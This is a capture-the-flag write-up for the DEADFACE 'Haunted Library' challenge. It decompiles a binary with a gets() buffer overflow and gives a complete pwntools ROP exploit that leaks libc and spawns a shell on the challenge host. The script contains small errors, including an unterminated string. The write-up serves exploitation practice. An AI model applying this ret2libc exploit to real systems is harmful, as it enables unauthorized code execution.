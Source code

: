 DEADFACE appear to be using this program as a way to let potential new recruits view info on their server, while restricting access to more important files…
I tried my hand at it, but i didnt get too far before hitting a wall. I do have some discoveries that might help you, though:
1.) I dont think we’ll be able to put shellcode on the stack…
2.) getting started was a nightmare! but I found a program that makes it wayyy easier: [https://github.com/io12/pwninit](https://github.com/io12/pwninit)

---
We have a program that displays a menu with three options. The first lists available books, which are simply text files in the current directory. The second asks us to enter a book name and then prints the contents of that file. The third exits the program. Since the binary is not stripped of symbols, we can use any reverse-engineering tool to decompile it.

`main(0)`
```C
setvbuf(fp: __TMC_END__, buf: nullptr, mode: 2, size: 0)
setvbuf(fp: stdin, buf: nullptr, mode: 2, size: 0)
print_library()
puts(str: "=====================================")
puts(str: "Welcome to the Haunted Library...")
puts(str: "=====================================")

while (true)
    menu()
    printf(format: "> ")
    int32_t var_c
    
    if (__isoc23_scanf(0x402055, &var_c) != 1)
        puts(str: "The librarian doesn")
        exit(status: 1)
        noreturn
    
    getchar()
    int32_t rax_4 = var_c
    
    if (rax_4 == 3)
        break
    
    if (rax_4 == 1)
        peruse()
        continue
    else if (rax_4 == 2)
        checkout()
        continue
    
    puts(str: "Make up your mind!\n")

leave()
noreturn
```

`peruse()`
```C
puts(str: "\nYou wander the dusty shelves and see:")
DIR* dirp = opendir(name: ".")

if (dirp == 0)
    return puts(str: "But the shelves are empty...")

while (true)
    struct dirent64* rax_6 = readdir(dirp)
    
    if (rax_6 == 0)
        break
    
    if (rax_6->d_name[0] != 0x2e)
        printf(format: "- %s\n", &rax_6->d_name)

return closedir(dirp)
```

`checkout()`
```C
{
    puts("\nWhich book do you dare open?");
    printf("> ");
    char var_58[0x47];
    gets(&var_58);
    
    if (strcmp(&var_58, "BookOfTheDead.txt") && !strchr(&var_58, 0x2f)
        && !strstr(&var_58, ".."))
    {
        FILE* fp = fopen(&var_58, U"r");
        
        if (!fp)
            return printf(
                "\nYou could have sworn you saw a book called '%s'...\n \n but as you look "
            "closer, it was nowhere to be found.\n", 
                &var_58);
        
        printf("\n====== %s ======\n", &var_58);
        
        while (true)
        {
            char rax_10 = fgetc(fp);
            
            if (rax_10 == 0xff)
                break;
            
            putchar((int32_t)rax_10);
        }
        
        puts("\n================");
        return fclose(fp);
    }
    
    return puts("That tome is forbidden!!! The librarian's wrathful gaze burns into you. ");
}

```
some interesting observations about the `checkout()` function and the binary:
- uses `gets()` to take user input.
- we cannot open the `BookOfTheDead.txt` file, which likely contains the flag.  
- no stack canary, which will allow us overflow the input buffer.

the binary has NX enabled so we cannot use shellcode. we can use ROP chains, as the challenge provides us with libc and loader.

the function also has the function called `book_of_the_dead()` which is never called, that prints the address of the puts function. this will helps us calculate where libc is loaded in memory. luckily, PIE is disabled, so we can simply jump to this function.

our ROP chain will have two parts:
- payload 1
	- return to `book_of_the_dead()`.
	- calculate libc's base address.
	- return to `main` again.
- payload 2
	- call `gets` to read `/bin/bash` from the user.
	- call `system` with `/bin/bash` string.

before we write our exploit we can use `pwninit` to path our binary to use the local libc and loader.

final exploit:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hauntedlibrary_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']
script = '''
set disassembly-flavor intel
break main
b checkout
display/5i $rip
display/30xg $rsp
display/x $rdi
display/x $rsi
display/x $rdx
display/x $rcx
'''

def conn():
    if args.L:
        r = process([exe.path])
        if args.GDB:
            return gdb.debug(exe.path, gdbscript=script)
    else:
        r = remote("env02.deadface.io",7832)

    return r


def main():
    r = conn()
    offset = cyclic_find(0x6161617861616177)
    botd = p64(exe.sym['book_of_the_dead'])
    main = p64(exe.sym['main'])

    # payload 1 - leak buts and call main
    payload = [
            b'2\r',
            b'A'*offset,
            botd,
            main
            ]
    payload = b''.join(payload)
    r.sendline(payload)
    r.recvuntil(b'puts(): ')
    leak = r.recvn(14)
    leak = int(leak, 16)
    print("LEAK: " + str(hex(leak)))

	# calculate libc base and other addresses
    libcbase = leak - 0x82c80
    print("LIBCBASE: " + str(hex(libcbase)))

    pop_rdi = p64(libcbase + 0x0000000000102dea)
    pop_rsi = p64(libcbase + 0x0000000000053887)
    pop_rdx_xor_eax = p64(libcbase + 0x00000000000d77bd)
    pop_rcx_0 = p64(libcbase + 0x0000000000049513)

    system = p64(libcbase + libc.sym['system'])
    writable = p64(libcbase + 0x208000 + 0x1000 + 0x1000)
    gets = p64(exe.plt['gets'])

	# payload 2 - call read(buffer) (/bin/bash) and system(/bin/bash)
    payload = [
            b'2\r',
            b'A'*offset,
            pop_rdi,
            writable,
            gets,
            pop_rdi,
            writable,
            system,
            main
            ]
    payload = b''.join(payload)
    r.sendline(payload)
    r.sendline(b"/bin/bash")
	r.sendline(b'whoami)
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

